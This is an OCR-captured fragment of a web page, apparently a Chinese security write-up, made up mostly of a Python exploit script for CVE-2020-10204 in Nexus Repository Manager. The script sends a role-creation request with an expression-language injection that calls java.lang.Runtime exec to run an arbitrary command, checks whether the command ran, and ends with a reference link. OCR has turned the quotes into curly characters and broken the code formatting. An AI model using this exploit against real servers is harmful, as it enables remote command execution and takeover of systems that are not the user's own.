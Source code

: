 ```
‘Content-Type’: “application/json”,

‘Cookie’: “jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=”+session+""

}

data = “”"

{“action”:“coreui_Role”,“method”:“create”,“data”:[{“version”:"",“source”:“default”,“id”:“1111”,“name”:“2222”,“description”:“3333”,“privileges”:["$\\A{’’.getClass().forName(‘java.lang.Runtime’).getMethods()[6].invoke(null).exec(’%s’)}"],“roles”:[]}],“type”:“rpc”,“tid”:89}

“”" % cmd `r = requests.post(url=vuln_url, headers=headers, data=data, timeout=20)

if r.status_code == 200:

if “UNIXProcess” in r.text:

print ("[+] Command Executed Successfully (Not Echo)")

else:

print ("[-] Command Execution Failed")

else:

print ("[-] Target Not CVE-2020-10204 Vuln Good Luck")` 
```

## 参考链接

> https://xz.aliyun.com/t/7559